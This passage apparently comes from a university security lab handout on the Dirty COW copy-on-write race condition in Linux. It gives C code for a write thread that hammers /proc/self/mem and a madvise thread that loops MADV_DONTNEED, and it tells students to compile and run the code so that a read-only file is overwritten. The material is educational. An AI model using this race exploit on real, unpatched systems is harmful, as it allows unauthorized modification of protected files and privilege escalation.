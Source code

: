 \subsection{Set Up the \texttt{write} Thread}

The job of the \texttt{write} thread listed in the following
is to replace the string \texttt{"222222"} in the
memory with \texttt{"******"}. Since the mapped memory is of COW type,
this thread alone will only be able to modify the contents in a copy of the mapped memory, which
will not cause any change to the underlying \texttt{/zzz} file.


\begin{lstlisting}[caption={The \texttt{write} thread},
                   label=cow:code:cow_attack:write]
/* cow_attack.c (the write thread) */

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}


\subsection{The \texttt{madvise} Thread}

The \texttt{madvise} thread does only one thing: discarding the private copy of
the mapped memory, so the page table can point back to the original mapped
memory.


\begin{lstlisting}[caption={The \texttt{madvise} thread},
                   label=cow:code:cow_attack:madvise]
/* cow_attack.c (the madvise thread) */

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}


\subsection{Launch the Attack}

If the \texttt{write()} and the \texttt{madvise()} system calls are invoked alternatively,
i.e., one is invoked only after the other is finished, the \texttt{write}
operation will always be performed on the private copy, and we will never be able to modify the
target file.  The only way for the attack to succeed is to perform the \texttt{madvise()}
system call while the \texttt{write()} system call is still running. We cannot always achieve
that, so we need to try many times. As long as the probability is not extremely low,
we have a chance. That is why in the threads, we run the two system calls in an infinite loop.
Compile the \texttt{cow\_attack.c}  and run it for a few seconds. If
your attack is successful, you should be able to see a modified \texttt{/zzz} file.
Report your results in the lab report and explain how you are able to
achieve that. 


